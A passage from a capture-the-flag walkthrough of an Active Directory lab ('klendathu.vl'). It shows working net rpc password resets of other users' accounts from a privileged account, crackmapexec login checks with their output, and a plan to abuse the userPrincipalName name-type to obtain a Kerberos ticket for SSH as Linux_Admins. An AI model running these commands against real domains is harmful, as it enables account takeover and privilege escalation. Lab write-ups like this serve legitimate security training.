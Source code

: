 Ok so, we need to edit the attribute "userPrincipalName" of flores or leivy (no matter) and make the "name-type" be NT_ENTERPRISE instead of NT_PRINCIPAL, we can do this with Rubeus.exe or if we modify getTGT.py of the impacket collections

After that we gonna have a .ccache with which we can ssh as "Linux_Admins"

Ok let's start : 

```console
# Note that i restart the box so we have new ip's :

10.10.245.69 DC1.klendathu.vl klendathu.vl DC1
10.10.245.70 SRV1.klendathu.vl klendathu.vl SRV1
10.10.245.71 SRV2.klendathu.vl klendathu.vl SRV2
```
First we need to change their password and after the attribute in ldap, for that we gonna use ldapmodify with a .lidf file, i found this link which explain : [Modify with .ldif](https://www.digitalocean.com/community/tutorials/how-to-use-ldif-files-to-make-changes-to-an-openldap-system)

And i asked to Chatgpt to create me a .ldif file and he returned me that

![alt text](../assets/image_klendathu/7er.png)

```bash
net rpc password "ibanez" 'newP@ssword2022' -U "dc1.klendathu.vl"/"Rasczak"%"REDACTED" -S "10.10.243.197"

cme smb 10.10.243.197 -u 'ibanez' -p 'newP@ssword2022'

SMB         10.10.243.197   445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
SMB         10.10.243.197   445    DC1              [+] KLENDATHU.VL\ibanez:newP@ssword2022

net rpc password "rico" 'newP@ssword2022' -U "dc1.klendathu.vl"/"Rasczak"%"REDACTED" -S "10.10.243.197"

cme smb 10.10.243.197 -u 'rico' -p 'newP@ssword2022'

SMB         10.10.243.197   445    DC1              [*] Windows 10.0 Build 20348 x64 (name:DC1) (domain:KLENDATHU.VL) (signing:True) (SMBv1:False)
SMB         10.10.243.197   445    DC1              [+] KLENDATHU.VL\rico:newP@ssword2022
```
So now we can modify ldap and verify :

